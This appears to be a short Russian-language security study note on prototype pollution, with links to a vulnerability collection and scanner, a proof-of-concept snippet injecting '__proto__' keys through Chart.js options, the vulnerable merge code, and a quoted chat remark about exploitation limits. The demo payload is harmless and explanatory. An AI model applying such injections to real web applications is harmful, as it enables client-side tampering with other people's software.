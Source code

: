 # Prototype Pollution Attack

Сборник вулнов: [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

Какой-то инструмент: [https://github.com/msrkp/PPScan/](https://github.com/msrkp/PPScan/)

Пример и mitigation для этой атаки: [https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/](https://www.whitesourcesoftware.com/resources/blog/prototype-pollution-vulnerabilities/)

Пример:

пусть есть js-файл

Пример внедрение в `__proto__` своего кода

```markup
<canvas id="canvas"></canvas>
<script src="node_modules/chart.js/dist/Chart.bundle.js"></script>
<script>
    var ctx = document.getElementById('canvas').getContext('2d');
    var chart = new Chart(ctx, {
        type: 'line',
        data: {
            labels: ['January', 'February', 'March', 'April', 'May'],
            datasets: [{
                label: 'My First dataset',
                backgroundColor: 'rgb(255, 99, 132)',
                borderColor: 'rgb(255, 99, 132)',
                data: [0, 10, 5, 2, 20]
            },
            JSON.parse(`{"__proto__": {"abc": "Injected value through dataset"}}`)
            ]
        },
        options: JSON.parse(`{"__proto__": {"def": "Injected value through options"}}`)
    });
    console.log({}.abc); // Print "Injected value through dataset"
    console.log({}.def); // Print "Injected value through options"
</script>
```

А все из-за того, что где-то в коде есть такой код (или подобный)

```javascript
if (isObject(tval) && isObject(sval)) {
    // eslint-disable-next-line no-use-before-define
    merge(tval, sval, options);
}
```

Ike Murami, \[3 дек. 2020 г., 14:40:07]: Мне сейчас рассказали, что это только логика, потому как функцию не сможешь замерджить через proto (так как нет способа десер через js сделать и отправить функцию как таковую)

соотв трудность in the wild: найти чейн, в котором замердженные объекты обрабатываются и влияют нужным образом на логику

\*на клиенте
